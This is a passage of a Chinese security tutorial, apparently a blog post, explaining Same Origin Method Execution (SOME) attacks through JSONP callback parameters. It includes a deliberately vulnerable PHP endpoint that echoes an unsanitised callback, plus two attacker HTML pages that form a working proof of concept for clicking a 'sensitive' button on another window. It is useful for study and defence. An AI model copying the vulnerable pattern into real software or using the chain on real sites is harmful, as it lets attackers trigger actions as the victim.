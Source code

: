 当访问color.php的时候，页面就会自动执行`get_color`，这个页面和父页面同源，结构也和传统的jsonp接口不太一样，但这种情况完全有可能发生。

一般来说，我们可能会尝试在`get_color`尝试domxss，遗憾的是，大部分这样的接口都只允许`.\w+`的字符输入。

而SOME攻击，就是在这种场景下出现的，在callback这里的缺陷可以导致执行同源下的**任意**方法，值得注意的是，这种攻击方法并不是csrf，他可以完全模拟你的任何行为。

这种攻击方式有几个局限性:
1、受到返回头的影响，如果返回头为`Content-T ype: application/json`,则任何利用都不会生效。
2、攻击者没办法操作执行函数传入参数，或者可以说是比较难操作。
3、受到同源策略的限制，只能执行同源下的任意方法。

## 让我们来测试一下

首先我们需要一个站点来模拟一下

index.html
```
<form>
    <button onclick="c()">Secret Button</button>
    </form>
<script>
    function c() {
        alert("LoRexxar click!");
    }
</script>
```

jsonp.php
```
<?php
$callback = empty($_GET["callback"]) ? "jsCallback" : $_GET["callback"];

echo "<script>";
echo $callback . "()";
echo "</script>";
```

我们假设click是一个敏感的按钮，这种情况我们可以通过SOME来点击这个按钮来执行相应的js。

首先我们需要一个some1.html
```
<script>
    function start_some() {
        window.open("some2.html");
        location.replace("http://b.com/index.html");
    }

    setTimeout(start_some(), 1000);
</script>
```

其次需要一个some2.html
```
<script>
    function attack() {
        location.replace("http://b.com/jsonp.php?callback=window.opener.document.body.firstElementChild.firstElementChild.click");
    }

    setTimeout(attack, 2000);

</script>
```


  [1]: http://static.zybuluo.com/LoRexxar/tzbaummy81p4ycznfzj0ladl/image.png
  [2]: http://static.zybuluo.com/LoRexxar/ik54i9k8irjz1biosk5xnunu/image.png